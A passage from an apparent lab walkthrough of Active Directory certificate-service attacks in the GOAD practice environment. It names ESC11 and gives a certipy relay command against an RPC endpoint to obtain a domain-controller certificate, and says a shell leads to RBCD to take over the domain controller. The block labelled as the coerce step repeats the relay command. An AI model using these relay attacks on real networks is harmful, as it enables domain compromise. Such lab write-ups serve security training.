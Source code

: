 ![part14_esc10_case2.png](/assets/blog/GOAD/part14_esc10_case2.png)

- And with the shell we can do RBCD to pwn the domain controler

## ESC11

`certipy find` show on ESSOS-CA the following issue :

> ESC11 : Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

- The attack is almost the same has ESC8 but on rpc instead of http.
- First prepare the relay:

```bash
certipy relay -target rpc://braavos.essos.local -ca 'ESSOS-CA' -template DomainController
```

- Then run a coerce on the dc

```bash
certipy relay -target rpc://braavos.essos.local -ca 'ESSOS-CA' -template DomainController
```
